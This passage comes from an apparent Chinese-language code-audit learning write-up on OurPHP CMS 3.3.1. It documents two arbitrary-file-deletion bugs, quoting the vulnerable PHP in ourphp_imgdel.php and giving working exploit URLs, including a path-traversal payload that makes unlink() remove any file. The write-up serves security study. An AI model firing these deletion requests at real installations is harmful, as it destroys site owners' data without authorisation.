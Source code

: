 

然后删除即可：

```
http://www.ourphp331.com/client/manage/ourphp_banner.php?ourphp_cms=del&id=8
```

这个id通过看一下插入的这个banner的序号即可。

![pic29](OurPHP3.3.1审计与测试.assets/pic29.png)



即可实现任意文件删除。



## 任意文件删除3

这个CMS的文件有点多，就不太想一个一个细看了，直接拿Seay扫着看了，可能会遗漏一些洞，但是主要还是学习代码审计叭。今天也把这个CMS结束掉，不看这个了。

漏洞位于`client/manage/ourphp_imgdel.php`的开头：

```php
$imgdel = $_GET["url"];
if(strpos($imgdel,"function/uploadfile") > 0){
	
	if(file_exists($imgdel)){
		
		$result=unlink($imgdel);
		echo '1';
		
	}
	
}
```

太明显了不分析了：

```
http://www.ourphp331.com/client/manage/ourphp_imgdel.php?url=./function/uploadfile/../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../1.txt
```





## 总结

这个CMS就到这里了，不太想继续看下去了，还有很多个功能没看，也不太想看了，接下来再去看另外一个CMS了，审完就去期末复习了。

这种小型CMS基本上代码逻辑不太行，没啥防护，所以很容易审出东西，很适合像我这样的新手来练练手。但是审多了就感觉都是因为0过滤的东西，挖不到什么新的，也就学习不到新的思路了，等期末考试结束之后再开始选难一点的CMS来学习审计了。











